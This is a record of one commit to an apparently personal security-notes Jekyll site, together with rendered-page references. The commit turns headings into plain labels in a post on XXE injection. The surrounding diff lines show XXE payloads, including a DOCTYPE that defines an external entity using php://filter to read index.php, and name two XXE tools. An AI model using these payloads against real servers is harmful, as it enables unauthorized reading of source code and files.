

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-12-20-XXE.md, in a window 1280 px wide and 900 px high, scrolled down 735 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
Update 2020-12-20-XXE.md

````diff
--- a/_posts/2020-12-20-XXE.md
+++ b/_posts/2020-12-20-XXE.md
@@ -40,17 +40,17 @@ If works, then:
 <methodCall><methodName>&test;</methodName></methodCall>
 ```
 
-## Tools
+Tools:
 
 ```
 # https://github.com/BuffaloWill/oxml_xxe
 # https://github.com/enjoiz/XXEinjector
 ```
 
-## Attacks
+Attacks:
 
 
-# Get PHP file:
+Get PHP file:
 ```
 <?xml version="1.0"?>
 <!DOCTYPE a [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
````
